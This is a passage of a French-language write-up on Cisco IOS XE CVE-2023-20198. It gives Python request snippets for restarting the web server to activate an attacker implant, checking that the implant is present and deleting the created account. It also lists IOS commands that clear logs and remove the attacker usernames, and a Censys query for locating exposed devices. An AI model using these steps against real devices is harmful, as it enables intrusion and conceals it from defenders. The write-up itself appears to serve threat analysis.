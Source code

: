 Cette vulnérabilité est corrigée et indépendante de la vulnérabilité `CVE-2023-20198` : https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-iosxe-webcmdinjsh-UFJxTgZD.html

Il est probable que les attaquants déposent leur implant à l'aide du compte administrateur créée.

### 3. Redémarrage du service

Selon le PoC, il serait nécessaire de redémarrer le service pour enregistrer la configuration de l'implant.

```py
# Restart the web server to activate the implant
restart_url = "https://target.com/webui/restart_server"

response = requests.post(restart_url, verify=False)
```

### 4. Vérifier la présence de l'implant

Une fois l'implant déposé, vous pouvez vérifier son exécution. Changez la route en fonction de la configuration de l'implant (ci-dessous exemple de l'implant récupéré).

```py
# Check for the presence of the implant
check_url = f"https://target.com/webui/logoutconfirm.html?logon_hash=1"

response = requests.get(check_url, verify=False)
```

### 5. Suppression des traces

Après avoir déposé l'implant, les attaquants suppriment leurs traces avec les commandes suivantes :

```bash
clear logging 
no username cisco_support 
no username cisco_tac_admin 
no username cisco_sys_manager
```

Il est aussi possible de le faire à travers l'interface web :

```py
# Clean up by deleting the local user account
delete_user_url = f"https://target.com/webui/delete_user/{username}"

response = requests.delete(delete_user_url, verify=False)
```

## Localisation des hôtes vulnérables 

Il est possible d'effectuer une recherche sur le moteur `Censy` avec le mot clef `services.labels=cisco-xe-webui` pour localiser des appareils fonctionant avec XE Webui.

![Alt text](/images/cisco-cve-2023-20198/2023-10-20_13-41.png)
